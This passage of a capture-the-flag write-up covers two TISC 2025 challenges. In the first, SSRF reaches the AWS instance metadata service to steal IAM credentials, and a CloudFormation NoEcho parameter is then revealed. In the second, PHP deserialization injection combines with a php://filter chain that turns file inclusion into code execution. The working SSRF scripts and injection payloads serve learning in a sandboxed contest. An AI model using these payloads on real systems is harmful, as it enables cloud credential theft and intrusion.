            "LastModified": "2025-09-23T17:26:22+00:00",
            "ETag": "\"1d51fa50ed5df5d3697e18e2741d22a5\"",
            "ChecksumAlgorithm": [
                "CRC32"
            ],
            "ChecksumType": "FULL_OBJECT",
            "Size": 1179262,
            "StorageClass": "STANDARD"
        },
        {
            "Key": "flag1.txt",
            "LastModified": "2025-09-23T17:06:34+00:00",
            "ETag": "\"081f305857b6eac59c2a2574655ef819\"",
            "ChecksumAlgorithm": [
                "CRC32"
            ],
            "ChecksumType": "FULL_OBJECT",
            "Size": 34,
            "StorageClass": "STANDARD"
        }
    ],
    "RequestCharged": null,
    "Prefix": ""
}
```

I went to check whether there were any other EC2 instances that are running and found `claws-internal`, which should be the so called 'backend' server that the challenge description was mentioning about.

```shell
$ aws ec2 describe-instances --filters "Name=tag:Name,Values=*claws*" --region ap-southeast-1 --output json > ec2_desc.json
```

```json
{
    "Reservations": [
        {
            ...
            "Instances": [
                {
                    ...
                    "Tags": [
                        {
                            "Key": "Name",
                            "Value": "claws-internal"
                        }
                    ]
                    ...
                    "PrivateIpAddress": "172.31.73.190"
                }
            ]
        },
        {
            ...  // claws-web (current)
        }
    ]
}

```

#### SSRF: claws-internal

Using the same SSRF script as the one in the previous SSRF analysis, I managed to find the website located at `http://172.31.73.190`. It had a `main.js` defined within the HTML.

```html
<script src="/main.js"></script>
```

The JS shows two endpoints I can make use of.

```js
const statusEl = document.getElementById("stack_status");
const healthStatusEl = document.getElementById("health_status");
const urlInput = document.getElementById("url_input");

function get_stack() {
  fetch(`/api/generate-stack?api_key=${apiKey}`)
    .then((res) => res.json())
    .then((data) => {
      if (data.stackId) {
        statusEl.textContent = `Stack created: ${data.stackId}`;
      } else {
        statusEl.textContent = `Error: ${data.error || "Unknown"}`;
        console.error(data);
      }
    })
    .catch((err) => {
      statusEl.textContent = "Request failed";
      console.error(err);
    });
}

function check_url() {
  const url = urlInput.value;
  if (!url) {
    healthStatusEl.textContent = "Please enter a URL";
    return;
  }
  fetch(`/api/healthcheck?url=${encodeURIComponent(url)}`)
    .then((res) => res.json())
    .then((data) => {
      if (data.status === "up") {
        healthStatusEl.textContent = "Site is up";
      } else {
        healthStatusEl.textContent = `Site is down: ${data.error}`;
      }
    })
    .catch((err) => {
      healthStatusEl.textContent = "Healthcheck failed";
      console.error(err);
    });
}
```

I was certain that the `/api/healthcheck?url=` endpoint had to be SSRF vulnerable.
The `/api/generate-stack?api_key=` endpoint reminded me of the API key within the secrets manager.

I first tested the generate stack endpoint with the internal API key. I got this output:

```json
{
  "stackId": "arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-83dbf0fb/a7ea5220-996a-11f0-bec6-029394e9e639"
}
```

It showed some AWS CloudFormation thing. I found out that this was the output for when some CloudFormation is being created.

I continued and tested with IMDSv1 (since there was no feasible way to do PUT requests) and got around to getting the credentials.

```json
<script>
  const url = "http://172.31.73.190/api/healthcheck?url=" +
              encodeURIComponent("http://169.254.169.254/latest/meta-data/iam/security-credentials/");
  const x = new XMLHttpRequest();
  x.onreadystatechange = function(){
    if(x.readyState === 4){
      document.open();
      document.write('<html><body><font size="2"><pre>' + (x.responseText||'') + '</pre></font></body></html>');
      document.close();
    }
  };
  x.open("GET", url, true);
  x.send();
</script>
```

```json
<script>
  const role = "internal-ec2";
  const url = "http://172.31.73.190/api/healthcheck?url=" +
              encodeURIComponent("http://169.254.169.254/latest/meta-data/iam/security-credentials/" + role);
  const x = new XMLHttpRequest();
  x.onreadystatechange = function(){
    if(x.readyState === 4){
      document.open();
        document.write('<html><body style="font-size: 1px"><pre id="code"></pre></body></html>');
        document.close();
        document.getElementById("code").textContent = x.responseText;
    }
  };
  x.open("GET", url, true);
  x.send();
</script>
```

#### claws-internal: AWS CLI

I checked the stack and found that there is a parameter with `flagpt2`. However, it is hidden.

```shell
$ aws cloudformation describe-stacks --stack-name pawxy-sandbox-83dbf0fb
{
    "Stacks": [
        {
            "StackId": "arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-83dbf0fb/a7ea5220-996a-11f0-bec6-029394e9e639",
            "StackName": "pawxy-sandbox-83dbf0fb",
            "Description": "Flag part 2\n",
            "Parameters": [
                {
                    "ParameterKey": "flagpt2",
                    "ParameterValue": "****"
                }
            ],
            "CreationTime": "2025-09-24T17:19:41.217000+00:00",
            "RollbackConfiguration": {},
            "StackStatus": "CREATE_FAILED",
            "StackStatusReason": "The following resource(s) failed to create: [AppDataStore]. ",
            "DisableRollback": true,
            "NotificationARNs": [],
            "Capabilities": [
                "CAPABILITY_IAM"
            ],
            "Tags": [],
            "EnableTerminationProtection": false,
            "DriftInformation": {
                "StackDriftStatus": "NOT_CHECKED"
            }
        }
    ]
}
```

Looking at the template, it seems that the `flagpt2` has `NoEcho` set to true, hiding the flag.

```shell
$ aws cloudformation get-template --stack-name pawxy-sandbox-83dbf0fb --query TemplateBody --output text
AWSTemplateFormatVersion: '2010-09-09'
Description: >
  Flag part 2

Parameters:
  flagpt2:
    Type: String
    NoEcho: true

Resources:
  AppDataStore:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: !Sub app-data-sandbox-bucket
```

I found a blog post online showing how to remove the `NoEcho` to reveal the flag.

```cardlink
url: https://infosecwriteups.com/pentesting-cloud-part-2-is-there-an-echo-in-here-ctf-walkthrough-54ec188a585d
title: "pentesting.cloud part 2: “Is there an echo in here?” AWS CTF walkthrough"
description: "In this blog post I’m going to show you a technique of uncovering a CloudFormation values protected by the NoEcho property. In other words…"
host: infosecwriteups.com
favicon: https://miro.medium.com/v2/resize:fill:256:256/1*A6LVtmXcJ3QJy_sdCyFx1Q.png
image: https://miro.medium.com/v2/resize:fit:1200/1*4pVou7pv_-OrQEjYoAHMIg.png
```

Following the instructions, I managed to un-`NoEcho` the parameter to reveal the contents of the final piece of the flag.

Start by updating the stack (and with `--disable-rollback` cause it doesn't work with `CREATE_FAILED` stacks).

```yaml
AWSTemplateFormatVersion: "2010-09-09"
Description: >
  Flag part 2

Parameters:
  flagpt2:
    Type: String
    #NoEcho: true

Resources:
  AppDataStore:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: !Sub app-data-sandbox-bucket
```

```shell
aws cloudformation update-stack \
  --stack-name pawxy-sandbox-83dbf0fb \
  --template-body file://reveal-flagpt2-template.yaml \
  --parameters ParameterKey=flagpt2,UsePreviousValue=true \
  --capabilities CAPABILITY_IAM \
  --disable-rollback \
  --region ap-southeast-1
```

Now to obtain the flag.

```shell
aws cloudformation describe-stacks \
  --stack-name pawxy-sandbox-83dbf0fb \
  --region ap-southeast-1 \
  --query 'Stacks[0].[StackStatus,StackStatusReason,Parameters]' \
  --output json
```

```json
[
  "UPDATE_FAILED",
  "The following resource(s) failed to create: [AppDataStore]. ",
  [
    {
      "ParameterKey": "flagpt2",
      "ParameterValue": "_c47_4S7r0PHiC_fL4w5}"
    }
  ]
]
```

Thus, completing the challenge (finally).

### Flag

```
TISC{iMPURrf3C7_sSRFic473_Si73_4nd_c47_4S7r0PHiC_fL4w5}
```

---

## LEVEL 8A - VirusVault

### Description

Welcome to the VirusVault, the most secure way to store dangerous viruses.  
Surely nothing can go wrong storing them this way!

### Solution

#### Preliminary

#### App Structure

The challenge provided `virus_vault.zip`, containing the entire application and it contained these files:

```tree
src/
├─ app/
│  ├─ DarkFurnace.txt
│  ├─ Ghostroot.txt
│  ├─ index.html
│  ├─ index.php
│  ├─ IronHydra.txt
│  ├─ source.php
│  └─ Voltspike.txt
├─ Dockerfile
├─ nginx.conf
└─ start.sh
```

I first had to deal with the Docker registry confirmed to be partially degraded and it sustained this status for the next 4 hours.


After the Docker registry changed to **Operational**, I went and used the build command and got this error:

```shell
 => ERROR [3/9] RUN apt install -y php8.2-fpm php-mbstring php-sqlite3 sqlite3 nginx && apt clean                                                                    1.0s
------
 > [3/9] RUN apt install -y php8.2-fpm php-mbstring php-sqlite3 sqlite3 nginx && apt clean:
0.974 Error: Unable to locate package php8.2-fpm
0.974 Error: Couldn't find any package by glob 'php8.2-fpm'
```

I found a quick fix by looking at the `start.sh` file and finding the actual version to be `8.4`.

```bash
#!/bin/bash

nginx -g 'daemon off;' &
/usr/sbin/php-fpm8.4 &

wait
```

```diff
-RUN apt install -y php8.2-fpm php-mbstring php-sqlite3 sqlite3 nginx && apt clean
+RUN apt install -y php8.4-fpm php-mbstring php-sqlite3 sqlite3 nginx && apt clean
```

I quickly run to another issue where another line was referencing to `php8.2` again, which was quickly rectified.

```bash
 => ERROR [5/9] RUN sed -i 's/;clear_env/clear_env/' /etc/php/8.2/fpm/pool.d/www.conf                                                                                0.3s
------
 > [5/9] RUN sed -i 's/;clear_env/clear_env/' /etc/php/8.2/fpm/pool.d/www.conf:
0.238 sed: can't read /etc/php/8.2/fpm/pool.d/www.conf: No such file or directory
```

```diff
-RUN sed -i 's/;clear_env/clear_env/' /etc/php/8.2/fpm/pool.d/www.conf
+RUN sed -i 's/;clear_env/clear_env/' /etc/php/8.4/fpm/pool.d/www.conf
```

The `Dockerfile` contained an `ENV` directive that contains the sample flag of the challenge, which the end goal is probably fetching the environment values somehow.

```Dockerfile
# Start the container by running the startup script
ENV FLAG="TISC{this_is_a_sample_flag}"
CMD ["sh", "/start.sh"]
```

Looking at the `nginx.conf`, it defines the rules:

- Serve files in the following order: `$uri $uri/ =404;`
- Only allow files with the `.php` extension
- Makes use of `php8.4-fpm.sock` for processing `.php` files

#### Web Code Analysis

Within the `index.php` included serialization and conversion logic.

```php
public function storeVirus(Virus $virus)
{
    $ser = serialize($virus);
    $quoted = $this->pdo->quote($ser);
    $encoded = mb_convert_encoding($quoted, 'UTF-8', 'ISO-8859-1');

    try {
        $this->pdo->query("INSERT INTO virus_vault (virus) VALUES ($encoded)");
        return $this->pdo->lastInsertId();
    } catch (Exception $e) {
        throw new Exception("An error occured while locking away the dangerous virus!");
    }
}
```

The full flow of the `storeVirus()` function:

1. Serialize the `$virus` object
2. Escape quotes (in this case it is change single quotes from `'` to `''`)
3. Converts the string to `UTF-8` as represented in `ISO-8859-1` (converting to `ISO-8859-1` and mapping it back to `UTF-8` characters)
4. Runs an `INSERT` query to insert the serialized payload into the `virus_vault`
5. Gets the `lastInsertId()` and returns it

The serialized payload looks like this:

```json
O:5:"Virus":3:{s:4:"name";s:6:"Normal";s:7:"species";s:9:"Ghostroot";s:13:"valid_species";a:4:{i:0;s:9:"Ghostroot";i:1;s:9:"IronHydra";i:2;s:11:"DarkFurnace";i:3;s:9:"Voltspike";}}
```

According to the `mb_convert_encoding()` documentation, the syntax is:

```php
mb_convert_encoding(array|string $string, string $to_encoding, array|string|null $from_encoding = null): array|string|false
```

So after serialization, it converts the serialized payload from `ISO-8859-1` to `UTF-8`.
In `ISO-8859-1`, there is a character `ÿ` which is `0xFF` in Latin-1 becomes `ÿ`. This expands the character count from 1 to 2.

The value after the `s:` tells the serializer how long the value is. Let's take the following serialized payload below as an example.

```json
O:5:"Virus":3:{s:4:"name";s:35:"x";s:7:"species";s:13:"/tmp/flag.md";s:7:"species";s:9:"Ghostroot";s:13:"valid_species";a:4:{i:0;s:9:"Ghostroot";i:1;s:9:"IronHydra";i:2;s:11:"DarkFurnace";i:3;s:9:"Voltspike";}}
```

You would expect `s:4:"name";s:35:"x";` to covert to `$name = "x"`. However, the length is defined as **35**. Thus, instead of that, it will set the `$name` value to:

```
%27";s:7:"species";s:13:"/tmp/flag.md
```

However, even if we did make use of the multi-byte exploit, there is still the issue of double definitions of fields. From the same serialized payload above, you can see that `species` is defined **twice**.

We can make use of `\x00` (`%00`) null bytes. The string after the null bytes will get removed. Why does this happen? This is because the PBO escaping quotes step as a by-product of escaping single-quotes also removed and parsed the null byte (I am not sure how this works but this is what I observed during testing).

```php
$quoted = $this->pdo->quote($ser);
```

So for the payload `hi%00`, we will end up with the string.

```json
O:5:"Virus":3:{s:4:"name";s:3:"hi
```

_note: I removed single-quotes for visual purposes_

```php
class Virus
{
    public $name;
    public $species;
    public $valid_species = ["Ghostroot", "IronHydra", "DarkFurnace", "Voltspike"];

    public function __construct(string $name, string $species)
    {
        $this->name = $name;
        $this->species = in_array($species, $this->valid_species) ? $species : throw new Exception("That virus is too dangerous to store here: " . htmlspecialchars($species));
    }

    public function printInfo()
    {
        echo "Name: " . htmlspecialchars($this->name) . "<br>";
        include $this->species . ".txt";
    }
}
```

We can combine both the multi-byte encoding (`%ff`) and the null bytes (`%00`) to create and control the other fields.

In this case we want to control `$species` since the `printInfo()` allows us to perform LFI (Local File Inclusion) exploits (or at least that was what I thought, see [Reading from ENV (Environment Variables)](#reading-from-env-environment-variables).

#### Exploiting Serialization with Multi/Null Bytes

To create the payload, we must understand how the multi-byte values work.

When trying directly with the multi-byte value, it serializes and counts as **2 characters**.

```json
s:2:"ÿ" --encoding--> s:2:"ÿ"
```

Using the multi-byte character (`%ff`) counts as **1 character**.

```json
s:1:"�" --encoding--> s:1:"ÿ"
```

From here we can make an equation to determine the number of multi-byte characters we require to make the `s:X` interpret the whole multi-byte values as part of the `name` field.

Let `X` be the serialized length of the payload (before encoding).
Let `L` be the total length of the payload
Let `H` be the number of multi-byte values.

```
X = L + H
```

The condition I need to fulfill is `X == 2H`, which simply means that `H = L`.

For example, given the payload:

```json
";s:7:"species";s:4:"flag";s:13:"valid_species";a:0:{}}%00
```

_56 characters after converting from URL-encoded to UTF-8._

Since there are 56 characters, I will need 56 multi-byte characters in front as the prefix.

```json
%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff";s:7:"species";s:4:"flag";s:13:"valid_species";a:0:{}}%00
```

_112 characters after converting from URL-encoded to UTF-8._

This will result in the following final encoded string:

```json
O:5:"Virus":3:{s:4:"name";s:112:"ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ";s:7:"species";s:4:"flag";s:13:"valid_species";a:0:{}}
```

Each `ÿ` character counts as 2 characters. Since there are 56 of them, it evaluates to 112 characters. Thus, the `name` field will only take the entire `ÿ` string payload in and everything else after is part of the actual serialized object.

#### Reading from ENV (Environment Variables)

This is the part that took me two days to figure out.

The `printInfo()` function seems to be the entry point to make use of to get the flag.

```php
public function printInfo()
{
    echo "Name: " . htmlspecialchars($this->name) . "<br>";
    include $this->species . ".txt";
}
```

However, now I am presented with the issue:

```php
ini_set("open_basedir", getcwd());
```

This sets the current working directory (`/app`) as the base directory, preventing any file traversal outside of `/app`.

There is also:

```shell
root@3f2e9c76110c:/app# php -i | grep allow_url_include
allow_url_include => Off => Off
```

This prevents me from running any commands or performing any Remote File Inclusion (RFI) exploits. I tried to run `php://` payloads as well but none of them worked.

I also ended up trying to serialize other objects into the other fields but it was no use since there were no internal classes or libraries I can exploit magic methods with.

This stumped me for quite a long time... that was until 7 hours before **TISC** ended, after just searching to learn more about PHP wrappers:

```cardlink
url: https://github.com/synacktiv/php_filter_chain_generator
title: "GitHub - synacktiv/php_filter_chain_generator"
description: "Contribute to synacktiv/php_filter_chain_generator development by creating an account on GitHub."
host: github.com
favicon: https://github.githubassets.com/favicons/favicon.svg
image: https://opengraph.githubassets.com/219b4ceec5130e0c55545cdd4b76bbc24bbe14bf4fc0e9e8482a9299cc7319bd/synacktiv/php_filter_chain_generator
```

The repository being 3 years old did not give me any hope but I eventually went and tried it anyways to see if it worked. I generated the chain and ended up with a long string of text.

```python
uv run php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)

php://filter/convert.iconv.UTF8.CSISO2022KR|...[truncated]...|convert.base64-decode/resource=php://temp
```

_The output has been [truncated], with the full length of the payload being 4130 characters_.

Setting this as the `$series` string value and executing the fetch action gave the following output:


Searching for the text `TISC` lead me to the flag value, thus solving the challenge.


### Flag

```
TISC{pHp_d3s3ri4liz3_4_fil3_inc1us!0n}
```

## My Final Thoughts

Back when I was interning in CSIT, one of the main objectives that I made for myself was to get a CSIT shirt. However, I received devastating insight that only full-timers got the shirts making it impossible for me to obtain one for myself. Then one day, an intern came in with a TISC shirt which sparked an idea in me: "Why not I get this year's TISC shirt?". That was what I did, I was committed to getting the TISC SWAG before I go NS, making it impossible for me to partake in future TISC's.

Back in TISC 2024, I only completed 1 of 12 challenges which was expected since it was the 2nd CTF I've ever participated in and I only had a basic grasp of Cybersecurity. Now a year later, I managed to make it to the Top 50 placement and completed 8 of 12 challenges, a huge step up from last year.

I learnt so much from this CTF, more specifically, the AWS SSRF Cloud challenge. I wasn't particularly interested in Cloud CTFs right up till I reached this interesting challenge on IMDSv2. It got me interested in Cloud Pentesting and how simple PUT SSRF can be used to gain access into a cloud instance and beyond.

Thanks to the organizers of this year's TISC 2025 and the creators who made it an enjoyable experience!
